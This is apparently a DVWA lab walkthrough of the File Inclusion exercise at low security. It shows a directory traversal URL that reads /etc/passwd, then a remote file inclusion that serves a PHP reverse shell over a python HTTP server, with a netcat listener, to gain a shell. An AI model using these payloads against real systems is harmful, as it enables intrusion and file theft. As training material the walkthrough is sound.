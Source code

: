# File Inclusion

## About

> Some web applications allow the user to specify input that is used directly into file streams or allows the user to upload files to the server.<br />
> At a later time the web application accesses the user supplied input in the web applications context. By doing this, the web application is allowing the potential for malicious file execution.<br />
> If the file chosen to be included is local on the target machine, it is called "Local File Inclusion (LFI). But files may also be included on other machines, which then the attack is a "Remote File Inclusion (RFI).<br />
> When RFI is not an option. using another vulnerability with LFI (such as file upload and directory traversal) can often achieve the same effect.
> 
> Note, the term "file inclusion" is not the same as "arbitrary file access" or "file disclosure".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi1.png?raw=true">
</p>

For this vulnerability we have 3 buttons to file1.php, file2.php and file3.php.
When we access for example the first file, we can see in the URL, the name of the file sent it as the value for the `page` parameter.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi2.png?raw=true">
</p>

This value can be changed to the name of other valid files from the server. Below we can see that we manage to access the file4.php, even if this was not displayed as an option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi3.png?raw=true">
</p>

To move around to the server's directories we can use `../../`. Every `../` will move us to the parent directory.
Using this syntax, we can read files from different places.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi4.png?raw=true">
</p>

For example we can use: `http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../../../etc/passwd` to read all local users on the server.
This payload is using many `../`, because we want to access the `/etc/passwd` from the root path `/`. So we add many `../` to be sure that we arrived at the root path.

The source code looks like this:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
So we can see that the parameter is missing any validation.

The objective of this exercise is to gain access to `../hackable/flags/fi.php` and to read all five quotes.
The exact payload does not work, but going back one more directory will include the file into the page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi5.png?raw=true">
</p>

Ok, we can read some of the quotes, but not all five. Visiting the source code of the page we can see that the fifth quote is commented.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi6.png?raw=true">
</p>

Even if we directly visit the page, not through the file inclusion vulnerability, a prevention measure was put in place for that.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi7.png?raw=true">
</p>

That means that the third one is not accessible via client-side.

## File Inclusion vs Directory Traversal
The difference between these 2 is that through the directory traversal vulnerability we will be able to read files from the system, but with file inclusion, the file is also included in the page.
This is why we were not able to read the fifth quote directly from the page, because the php code was executed, so the comment line was treated as a comment and not included as text in the page.

For example reading `/etc/passwd` will be the same for directory traversal and also for file inclusion because is just a file with text.
Instead trying to read login.php, in directory traversal we will see all the content of the file as text, and in the file inclusion the content will be included in the page, like in the example below:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi8.png?raw=true">
</p>

## Remote File Inclusion
Ok, we still didn't read the third quote, so what can we do?
There are 2 types of file inclusion, local and remote. We already saw in the previous examples the file included from the local, that means that the remote file inclusion will come from a different domain.
So instead of giving local files as parameter, we will give a new address: `http://localhost/DVWA/vulnerabilities/fi/?page=http://example.com/example.php`.
Now, on our page we will be able to see the content of the files from other domains.

RFI is more dangerous than LFI because usually leads to Remote Code Execution.
For the next example we will host a python server and use a reverse shell for the RFI vulnerability.

A php reverse shell can be downloaded from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Edit it with the ip of your machine and the port you want to use, for this example the ip will be 127.0.0.1 and port 4444.
Start a python server at the location of the reverse shell file: `python3 -m http.server 4445`
Start a netcat listener: `nc -lvnp 4444`
And now we can access the URL: `http://localhost/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:4445/rev.php`
Now we have access on the server and we can go and read the `/hackable/flags/fi.php` file.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi9.png?raw=true">
</p>

Is interesting that the fourth message is encrypted in the file, so we were able to read it the first time with the help of file inclusion vulnerability.

## Medium Security

## High Security

## Impossible Security
